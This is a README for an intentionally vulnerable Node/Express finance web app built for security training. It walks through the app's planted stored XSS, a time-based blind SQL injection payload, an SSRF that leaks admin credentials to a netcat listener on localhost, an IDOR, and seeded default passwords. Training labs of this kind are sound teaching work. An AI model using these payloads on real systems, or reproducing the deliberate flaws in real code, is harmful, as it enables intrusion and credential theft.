



# Unhackable Finance Application
<div id="top"></div>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>

  </ol>
</details>


<!-- ABOUT THE PROJECT -->
## About The Project

This is a intentionally vulnerable web application to demonstrate security issues. 


<p align="right">(<a href="#top">back to top</a>)</p>


### Built With

* [Node.js](https://nodejs.dev/)
* [Express](https://expressjs.com/)
* [Mysql](https://www.mysql.com/)
* [Sequelize ORM](https://sequelize.org/)
* [Bootstrap](https://getbootstrap.com/docs/5.2/getting-started/introduction/)

Royalty free stock images from [Pixabay](https://pixabay.com/)


<p align="right">(<a href="#top">back to top</a>)</p>


<!-- GETTING STARTED -->
## Getting Started

To get a local copy up and running follow these simple example steps.

### Prerequisites

* npm
  ```sh
  npm install npm@latest -g
  ```
* mysql -- see [downloads](https://www.mysql.com/downloads/)


### Installation

1. Clone this repo: 
```sh 
git clone https://github.com/malaphar/unhackable-bd.git && cd unhackable-bd
```
2. Setup MySQL database: 
```sh
mysql.server start # If mysql isn't running. Note instructions done on MacOS
mysql -u {Your Username} -p
CREATE DATABASE unhack_db;
```
Alternatively SOURCE the ./db/schema.sql

3. Install Node packages *Ensure you're in the project folder ``unhackable-bd/``*:
```sh
npm install
```
4. Setup a ```.env``` file. See the ```.env.EXAMPLE``` copy this and remove .EXAMPLE add your mysql credentials
5. Seed the database:
```sh
npm run seed
```  
6. Start the server:
```sh
npm run start
```
If developing to use nodemon run:
```sh
npm run dev
```
The server should be running at [localhost:3000](http://localhost:3000)


<p align="right">(<a href="#top">back to top</a>)</p>


<!-- USAGE EXAMPLES -->
## Usage

### Base User Page

App default is ```http://localhost:3000/``` this is the base general user area. 

#### XSS

Contact an Investment Professional:
This is the stored cross-site scripting injection point, which will affect authenticated users on the dashboard - messages feature. Note: This leverages ```innerHTML``` don't use ``<script>`` tags or spaces in the payload. Demo exploits found in ``/exploit.js``



#### SQLi

Search: This is the SQL injection location a good query would be XYZ, which will return results. Including a single quote or anything to cause a SQL error will show a Db error but no further details making exploitation blind. Examples:

*Valid*

Request: ```/search?search=XYZ```
Response: ```[[{"id":1,"ticker":"XYZ"}],[{"id":1,"ticker":"XYZ"}]]```

*SQL Error*

Request: ```/search?search=%27```
Response: ```SequelizeDatabaseError```

*SQL Injection*

Request: ```/search?search=%27%2b(select*from(select(sleep(10)))a)%2b%27```
Response: Will sleep for 10 seconds showing SQLi then return - ```[[{"id":1,"ticker":"XYZ"},{"id":2,"ticker":"ABC123"}],[{"id":1,"ticker":"XYZ"},{"id":2,"ticker":"ABC123"}]]```

#### Enumeration

Robots provides all the endpoints needed:

```
User-agent: *
User-agent: AdsBot-Google

Disallow: /
Disallow: /u/admin/settings
Disallow: /u/login
Disallow: /u/*
```

### Login 

Located at ``/u/login`` some basic creds are setup if the database was seeded:

username: trader
password: password12345

username: investor
password: password12345

username: admin
password: admin

User's can either guess the "admin" password or exploit SSRF to gain credentials

*Note:* No real roles admin and users are the same 

#### SSRF

Located at ``/u/admin/settings`` this endpoint has an auth issue and does not enforce any auth. It is also exploitable to SSRF:



Setting the Hook URL will send the credentials configured (it's pre-configured with admin creds) to this URL. You can use netcat to listen on localhost assuming local setup, as shown below:

Hook URL: http://127.0.0.1:1337
```sh
nc -nklvv 1337
```
Run Test Connection:

```sh
malaphar@berlin ~ % nc -nklvv 1337
POST / HTTP/1.1
Content-Type: text/plain;charset=UTF-8
Accept: */*
Content-Length: 29
User-Agent: node-fetch/1.0 (+https://github.com/bitinn/node-fetch)
Accept-Encoding: gzip,deflate
Connection: close
Host: 127.0.0.1:1337

username=admin&password=admin
```

*Note:* This request will be triggered by the server and send the already defined admin password if a new one hasn't been entered. If the user changes the admin password and saves this path will no longer work for exposing "real" credentials but the SSRF will still exist exposing whatever credential has been entered. 

### Authenticated User 

Endpoint is ```/u/dashboard``` upon login this is where you'll land. It is also where the <a href="#xss">XSS</a> executes. By default it will pull "stock trade" data for the current user but this is affected by an IDOR authentication is enforced but authorization is not e.g., ```/u/dashboard?user_id=3``` and ```/u/dashboard?user_id=2```.



#### Misc

There are a few other bugs throughout to find but the above are the main educational ones.


<p align="right">(<a href="#top">back to top</a>)</p>

